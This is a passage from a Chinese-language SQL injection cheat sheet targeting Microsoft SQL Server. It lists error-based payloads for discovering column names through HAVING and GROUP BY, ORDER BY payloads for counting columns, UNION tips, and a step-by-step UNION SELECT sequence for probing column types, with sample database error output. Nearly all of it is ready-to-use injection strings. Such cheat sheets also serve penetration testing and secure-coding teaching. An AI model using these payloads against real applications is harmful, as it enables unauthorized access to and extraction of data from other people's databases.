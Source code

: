     81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

* 基于错误-探测字段名

    + HAVING {S}
        + ' HAVINT 1=1 \-\-
        + ' GROUP BY table.columnfromerror1 HAVING 1=1 \-\-
        + ' GROUP BY table.columnfromerror1, table.columnfromerror2 HAVING 1=1 \-\-
        + ...
    + SELECT 中使用 ORDER BY 探测字段数 {MSO}
        + ORDER BY 1 \-\-
        + ...
        + ORDER BY N \-\-

### 3. 数据类型、UNION、之类的

* 提示：

    + 经常给UNION配上ALL使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
    + 如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，可以使用-1或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
    + 在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    + 盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（一般用户名的框中不会出现NULL）

+ 获取字段类型
    + ' union select sum(columntofind) from users\-\- {S}

    > Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument. 如果没有返回错误说明字段是数字类型

    + 可以使用CAST()和CONVERT()

    > SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL\-\-

    + 类型查询

    >11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。

    > 11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第一个字段是integer类型。

    > 11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 \-\-

    报错 – 第二个字段不是integer类型

    > 11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第二个字段是string类型。

    > 11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 \–\-

    报错 – 第三个字段不是integer

    ……

    Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.
